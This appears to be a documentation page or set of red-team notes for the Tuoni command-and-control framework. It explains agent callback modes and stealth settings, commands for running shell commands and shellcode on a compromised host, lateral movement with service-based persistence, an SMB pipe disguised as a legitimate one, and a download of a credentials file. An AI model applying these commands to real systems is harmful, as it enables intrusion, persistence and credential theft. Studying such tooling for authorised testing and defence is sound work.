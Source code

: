 #### Agent
In Tuoni, the ***agent is the default payload*** for post-exploitation activities. The agent can communicate with Tuoni C2 in both `asynchronus` and `interactive` modes:

- **Asynchronous:** Default and Stealthier mode. The agent periodically calls back to Tuoni C2, retrieve tasks, and returns the output immediately. To increase stealth further, `instantResponse` can be set to `false`. This causes the response to be returned on the next check-in.

- **Interactive:** Tasks and outputs are handled in real-time. Although it is faster, it's more likely to be detected due to the constant communication.	

#### Running Shell Commands
Tuoni C2 offers several methods for executing commands directly on the compromised host:
- `cmd:` executes a command via the command prompt (cmd.exe).
- `powershell:` executes a command via PowerShell
- `execute-assembly:` executes a .NET assembly.
- `inject:` is used to invoke shellcode.
- `run:` uploads and runs an executable.
- `bof:` uploads and runs a beacon object file.

	**Example of Cmd**
	```
	tuoni> cmd --command whoami
	```

#### Lateral Movement
Tuoni C2 provides several out-of-the-box methods for lateral movement:

- `jump-wmi:` utilizes Windows Management Instrumentation (WMI) to execute commands on remote Windows systems.
- `jump-winrm:` leverages Windows Remote Management (WinRM) to ***enable PowerShell-based remoting***. Payloads are copied over via SMB and executed using PowerShell.
- `jump-ssh:` employs Secure Shell (SSH) to remotely access and execute commands on Unix/Windows systems.
- `jump-service:` ***installs and executes payloads as a Windows service*** on the target machine, granting persistent access .

	Example of Jump-Service
	```
	jump-service --target IP --payloadId 7 --execConf.execType SELF
	```

```
connect-smb --host IP -pipename MS_LEGIT_PIPE --execConf.execType SELF
```

#### Data Exfiltration
Using the agent console, you can navigate directories, retrieve files, and take screenshots of the user's current desktop.
Example: 
```
download --filepath creds.txt --execConf.execType SELF
```